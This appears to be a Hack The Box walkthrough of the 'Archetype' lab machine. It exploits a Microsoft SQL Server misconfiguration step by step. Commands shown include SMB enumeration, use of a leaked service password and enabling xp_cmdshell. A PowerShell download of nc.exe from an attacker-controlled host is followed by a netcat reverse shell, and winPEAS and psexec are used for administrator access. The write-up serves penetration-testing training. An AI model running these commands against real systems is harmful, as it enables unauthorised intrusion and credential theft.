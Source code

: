 # Archetype

Archetype is a Windows machine, the task is to exploit a misconfiguration in Microsoft SQL Server, try getting a reverse shell and get familiarized with the use of Impacket tool in order to further attack some services.

Tools: Kali Linux, Windows, Nmap, MS SQL, Impacket, Powershell, Netcat, winPEAS, SMB

Tags: Networks, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, and port information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

## MS SQL Client

- `Mssqlclient.py` script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows-auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

## XP Command Shell

- `Xp_cmdshell` extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener for a reverse shell to establish a direct command line access.
	* `help`
	* `enable xp_cmdshell`
	* `RECONFIGURE`
	* Confirm the command shell is enabled with: `xp_cmdshell "whoami"`
## Netcat

* Locate the "nc.exe" file on Kali machine, if not installed, it will need to be installed.
* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
	* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell "powershell -c cd c:\Users\sql_svc\Downloads; wget http://10.10.16.233/nc.exe -outfile nc.exe"`
	* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444` to listen on port 4444.
	* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444` to establish direct command line access.

	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

	* Navigate to the directory that contains Flag1
		
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

## Privilege Escalation (winPEAS)

* `WinPEAS script` can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
	* Enter `powershell` 
	* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
	* Run `.\winPEAS.exe`
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

	* `ConsoleHost_history.txt` contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
	* In Kali, enter `locate psexec`
	* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
	* Enter password 
	* Locate the root flag
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)
